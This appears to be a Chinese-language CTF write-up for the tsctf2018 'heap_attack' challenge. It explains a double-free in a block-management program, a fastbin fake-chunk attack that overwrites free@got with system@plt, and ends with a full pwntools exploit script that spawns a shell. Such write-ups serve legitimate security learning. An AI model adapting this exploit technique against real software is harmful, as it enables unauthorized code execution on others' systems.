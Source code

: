 ```yaml
---
title: tsctf-HeapAttack
categories:
- tsctf2018
---
```

# tsctf2018->heap_attack

## 前言

最近终于磨蹭到了堆的漏洞，刚看完fastbin attack，准备先停一下，做几个题巩固一下，这里的heap_attack是一道比较典型的double free的题目，记录一下

## 程序逻辑

程序一共有三个功能，新建block，编辑block和删除block，这次跟之前做的几道题不太一样的是没有输出函数和溢出漏洞，寻摸了半天也没找到。

![main](./1.jpg)
![newblock](./2.jpg)
![delete](./3.jpg)
![edit](./4.jpg)

## 漏洞分析

在删除这里只是free了堆块，没有清零，存在uaf和double free，这里虽然没有可以泄露函数地址的打印功能，但是程序里有个echo函数给了system地址，以前输入可以溢出的时候可以用uaf构造unlink，现在没有的话就考虑单纯的double free。

## 数据构造

新建四个堆块，其中最后一个堆块的内容是'/bin/sh\x00'，第0个堆块的作用是初始化堆。依次删除第一个堆块，第二个堆块，第一个堆块，此时的Bins结果可以看到：
main_arena->chunk_1->chunk_2->chunk1
再Add(fake_chunk_addr)，使得free bins的指针链表变成：
main_arena->chunk_2->chunk1->fake_chunk_addr
我们希望这个fake_chunk分配到全局变量s的低地址处且长度为0x70，从而可以覆盖s[i]为free@got，进一步edit即可使得system@plt覆盖free@got，这里使用pwndbg的find_fake_fast,选择一个离s比较近的0x6020bd，Add(p64(0x6020bd))即可

![fake_chunk](./5.jpg)

Add一次，分配的是chunk_2，再Add一次，分配的是chunk_1，再Add一次，分配的是fake_chunk_addr，这里它和s的距离为0x23,输入部分相距0x13，故先填充0x13的'a'，加上free@got即可让s[0]为free@got，再edit(0)覆盖其为system@plt，最后free(chunk3)触发system('/bin/sh')

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux')
context.log_level = "DEBUG"
context.terminal = ['tmux','split','-h']
debug = 0
p = process('./heap_attack')
elf = ELF('./heap_attack')
if debug:
    gdb.attach(p)

def Add(size,content):
    p.recvuntil('Input ur choice:')
    p.sendline('1')
    p.recvuntil('Input size:')
    p.sendline(str(size))
    p.recvuntil('Input content:')
    p.send(content)

def Delete(index):
    p.recvuntil('Input ur choice:')
    p.sendline('2')
    p.recvuntil('Input index:')
    p.sendline(str(index))
    
def Edit(index,content):
    p.recvuntil('Input ur choice:')
    p.sendline('3')
    p.recvuntil('Input index:')
    p.sendline(str(index))
    p.recvuntil('Input content:')
    p.send(content)

Add(0x60, 'a'*0x5f) 
Add(0x60, 'a'*0x5f) 
Add(0x60, 'a'*0x5f)
Add(0x60, '/bin/sh\x00') 
Delete(1)
Delete(2)
Delete(1)
print 'double free'
Add(0x60, p64(0x6020bd))
print 'add 1'
Add(0x60, 'a'*0x5f)
print 'add 2'
Add(0x60, 'a'*0x5f)
print 'add 1 again'
free_got = elf.got['free']
Add(0x60, 'a' * 19 + p64(free_got)) 
Edit(0, '\xb0\x07\x40\x00\x00\x00')#not p64(system_plt) for the length is 6
print 'over flow'
Delete(3)
p.interactive()
```
